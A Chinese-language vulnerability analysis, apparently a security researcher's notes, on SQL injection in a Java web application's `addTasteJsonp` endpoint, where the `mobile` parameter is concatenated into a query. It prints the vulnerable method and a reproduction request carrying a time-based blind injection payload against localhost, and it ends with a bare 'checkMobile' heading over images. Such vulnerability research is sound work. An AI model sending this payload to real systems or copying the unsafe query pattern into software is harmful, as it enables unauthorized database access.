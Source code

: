 ![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412031421510.png)

## addTasteJsonp 注入

使用`jar-analyzer`工具搜索该方法被调用的地方

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412031426474.png)

发现 `addTasteJsonp` 函数一样调用了 `saveTaste` 漏洞点都是一样的

```java
   @ClearInterceptor
   public void addTasteJsonp() {
      String company = Util.null2String(this.getPara("company"));
      String userName = Util.null2String(this.getPara("userName"));
      String mobile = Util.null2String(this.getPara("mobile"));
      String jsonp = Util.null2String(this.getPara("jsonpcallback"));
      String from = Util.null2String(this.getPara("from"), "1");
      int status = 1;
      String msg = this.saveTaste(company, userName + "(客户)", mobile, from, "", "");
      if (msg.equals("")) {
         status = 0;
      }

      this.renderText(jsonp + "({status:" + status + "})");
   }

```

在 `saveTaste` 函数`343`行代码中，sql语句中直接拼接了 mobile 字符串的值，导致漏洞产生。

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412031351065.png)
### 漏洞复现

```
GET /taste/addTasteJsonp?company=1&userName=1&jsonpcallback=1&mobile=1%27%20AND%20(SELECT%208094%20FROM%20(SELECT(SLEEP(3)))mKjk)%20OR%20%27KQZm%27=%27REcX HTTP/1.1
Host: 127.0.0.1:8088

```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412031436425.png)

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412031618897.png)


## checkMobile 注入

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412031453783.png)

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412031454006.png)
